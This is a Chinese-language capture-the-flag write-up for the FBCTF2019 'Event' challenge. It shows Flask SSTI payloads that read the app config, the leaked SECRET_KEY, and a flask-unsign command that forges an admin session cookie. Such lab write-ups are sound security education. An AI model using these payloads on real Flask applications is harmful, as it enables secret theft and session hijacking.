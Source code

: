 # \[FBCTF2019]Event

## \[FBCTF2019]Event

## 考点

* Flask SSTI
* Flask SSTI 获取config
* Flask session伪造
* `flask-unsign`使用

## wp

提示登录注册，随便输然后看到是添加event的功能。先看看cookie吧

```
user=ImFhYWEi.YmPu9w.Q1_mTk2jF7Ix0tBOaceSswpZkgI
events_sesh_cookie=.eJwlzjsOwjAMANC7eO4QO4nj9DJV_BOsLZ0QdweJAzzpveHIM64H7K_zjg2Op8MOGa3qwsGijWYJlOYebJaiIhmGM6L1VOzabM5A81aIZ8rKxWsqFbHBo9ROyhxUuw4fiG6azI2qy8_VwoREZDYHUWXM0hVHgQ3uK85_BuHzBcvqLoU.YmPu9w.dH8qRtgy6eTettBjwAKpWX09AvI
```

`user`不知道是什么加密，用`flask-unsign`只得到了`aaaa`，这是我的登录名

![](<../../.gitbook/assets/image (3).png>)

`events_sesh_cookie`使用`flask-unsign`看到内容如下

```
{'_fresh': True, '_id': 'fe43ba1768b4290e184dde6ccf8b88fec19ee45fb15b4c99e1cd40269f8afa6a9b208c7670352b66e235b7d711dcbf66423d8c9930621222cc9722361f05b170', 'user_id': '1'}
```

三个输入都可控，三个位置都试试SSTI，fuzz了一下发现`__init__,__class__,__dict__`有回显

![](<../../.gitbook/assets/image (10) (1).png>)

`__class__.__mro__[3].__subclasses__()`提示302，使用`__class__.__init__.__globals__['app']`不行，再用`__class__.__init__.__globals__[app]`也不行，不知道是不是过滤了关键字，

考虑从config信息中获取secret\_key，然后进行session伪造，使用`__class__.__init__.__globals__[app].config`获取`config`信息

```
'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'
```

`__class__.__init__.__globals__[app].__dict__`可以获取更多flask app的信息

再用flask-unsign加密`flask-unsign.exe --secret "fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y" --sign --cookie "admin"`

![](<../../.gitbook/assets/image (27).png>)

得到`ImFkbWluIg.YmP6Ag.7E8dA-A3bqO-TSTpfx76Qo7wdDo`

修改cookie中的user字段即可。
